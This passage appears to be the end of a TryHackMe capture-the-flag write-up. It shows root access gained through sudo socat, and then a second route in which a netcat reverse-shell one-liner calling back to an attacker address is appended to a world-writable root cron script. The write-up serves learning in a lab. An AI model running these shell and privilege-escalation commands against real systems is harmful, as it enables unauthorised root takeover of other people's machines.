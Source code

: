 ```bash
sudo socat stdin exec:/bin/sh

whoami
root

cat /root/root.txt
base64 Flag

cat /root/root.txt | base64 -d
THM{The Root Flag}
```

## Alternative Path

While writing this post, I was looking around the server and found another way to root it directly from www-data. You don't even need to pass by elyana's user. 

Once you get the shell as www-data, you can see a crontab that runs every minutes as root.

```bash
cat /etc/crontab 

...

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
...
*  *    * * *   root    /var/backups/script.sh


ls -l /var/backups/script.sh 
-rwxrwxrwx 1 root root 73 Oct  7 13:37 /var/backups/script.sh

cat /var/backups/script.sh
#!/bin/bash

#Just a test script, might use it later to for a cron task
```

The file is writable be everyone. So we can inject a bash reverse shell in it and get a root shell back. 

```bash
echo "mkfifo /tmp/kirxhbg; nc 10.13.3.36 4445 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg" >> /var/backups/script.sh
```

Start another netcat listener and wait for the connection. You'll get a root shell directly, so you can get both flags.

```bash
nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.35.108 47790

whoami
root

cat /home/elyana/user.txt | base64 -d
THM{The User Flag}

cat /root/root.txt | base64 -d
THM{The root Flag}
```

